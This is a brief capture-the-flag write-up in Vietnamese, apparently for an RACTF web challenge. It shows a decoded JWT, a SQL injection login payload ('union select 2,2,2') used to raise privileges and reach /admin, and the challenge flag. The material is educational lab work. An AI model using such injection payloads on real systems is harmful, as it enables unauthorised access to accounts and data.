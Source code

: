 ![image-20200608013311823](images/image-20200608013311823.png)

Login với tài khoản của chall trước

![image-20200608013527987](images/image-20200608013527987.png)

Decrypt JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkRhdmUiLCAicHJpdmlsZWdlIjogMX0.jxWh4j1ZvT3nsOQY6B1h-mniCtyx535TUG9hDsg3s_g

![image-20200608013623685](images/image-20200608013623685.png)

=> Có ít nhất 3 trường: id, user, privilege => Bypass bằng cách cho privilege khác 1, SQLi tay hoặc sử dụng sqlmap với payload như sau: 

Payload: **user=' union select 2,2,2—&pass=**

Path: **/admin**

Flag: **ractf{j4va5cr1pt_w3b_t0ken}**